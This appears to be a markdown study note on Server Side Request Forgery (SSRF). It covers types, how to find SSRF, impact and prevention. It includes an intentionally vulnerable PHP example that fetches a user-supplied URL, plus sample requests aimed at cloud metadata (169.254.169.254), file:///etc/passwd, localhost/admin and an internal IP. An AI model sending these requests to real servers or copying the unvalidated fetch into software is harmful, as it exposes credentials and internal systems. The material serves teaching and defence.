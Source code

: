 # Server Side Request Forgery (SSRF)

## SSRF Vulnerability

![SSRF](../photo/ssrf1.png)

- SSRF stands for Server Side Request Forgery. It is a type of web application vulnerability that allows an attacker to make unauthorized requests from a vulnerable server to other internal or external servers.


- result in unauthorized actions or access to data within the organization either in the vulnerable application itself or on other back-end systems that the application can communicate with.

## OWASP Top 10 vulnerability 
![Top-10](../photo/ssrf2.png)


## Example Vulnerable Code

```php
<?php

/**
* Check if the 'url' GET variable is set
* Example - http://localhost/?url=http://testphp.vulnweb.com/images/logo.gif
*/
if (isset($_GET['url'])){
$url = $_GET['url'];

/**
* Send a request vulnerable to SSRF since
* no validation is being done on $url
* before sending the request
*/
$image = fopen($url, 'rb');

/**
* Send the correct response headers
*/
header("Content-Type: image/png");

/**
* Dump the contents of the image
*/
fpassthru($image);}
```
[https://www.acunetix.com/blog/articles/server-side-request-forgery-vulnerability/](https://www.acunetix.com/blog/articles/server-side-request-forgery-vulnerability/)

- In the above example, the attacker has full control of the url parameter. They can make arbitrary GET requests to any website on the Internet and to resources on the server (localhost).

# Type of `SSRF`

- Regular SSRF (In Band)
- Blind SSRF (Out-of-Band)

# How to find `SSRF`

## Common parameter for `SSRF`

![finding_ssrf1](../photo/ssrf3.png)

##  Find full URL is used in a parameter in the address bar

![Finding_ssrf2](../photo/ssrf4.png)

## Find path of the URL
![Finding_ssrf3](../photo/ssrf5.png)

[Reference: https://tryhackme.com/room/ssrfqi](https://tryhackme.com/room/ssrfqi)



## Impact of `SSRF`

- Criminals usually use SSRF attacks to target internal systems that are behind firewalls and are not accessible from the external network

- Sensitive Data Exposuer

- Cross-Site Port Attack (XSPA)

- Denail of Service (DoS)
- Remote Code Execution




## Exploitation

- Determin if a port number can be specified
- Internet network scan
- Attempt to connect to loopback address

## Example Attack Code

```php
GET /?url=http://169.254.169.254/latest/meta-data/ HTTP/1.1
Host: example.com
```
- Attackers can also use SSRF to make requests to `other internal resources` that the web server has access to, which are not publicly available. For example, they can access cloud service instance metadata like `AWS/Amazon EC2 and OpenStack`.

```php
GET /?url=file:///etc/passwd HTTP/1.1
Host: example.com
```

```php
GET /?url=http://localhost/admin HTTP/1.1
Host: example.com
```
```php
GET /?url=http://192.168.1.10/robots.txt HTTP/1.1
Host: example.com
```

- Some applications may enable attackers to use more exotic URL schemas

- the attacker can use the `file://` URL schema to make requests to any host on any port and send custom data.

## How to prevent `SSRF`

- Application Layer Defense
	- Sanitize and validate all input data
	- Enforce the url schema with positive allow list
	- Disable HTTP Redirection
- Network Layer Defend
	- Separate networks to reduce impact
	